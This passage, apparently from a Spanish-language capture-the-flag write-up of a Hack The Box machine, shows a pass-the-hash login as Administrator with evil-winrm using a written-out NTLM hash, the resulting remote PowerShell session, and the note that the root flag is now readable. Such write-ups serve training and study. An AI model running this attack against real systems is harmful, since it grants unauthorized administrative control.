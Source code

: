 Y ahora podemos hacer ***pass the hash*** como el usuario **Administrator** y la herramienta `evil-winrm`:

```bash
❯ evil-winrm -u "Administrator" -H "d904afc137554b20156f689f1b19c2b2" -i 10.10.10.59

Evil-WinRM shell v3.3

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
tally\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents>
```

Ya somo el usuario **Administrator** y podemos visualizar la flag (root.txt).
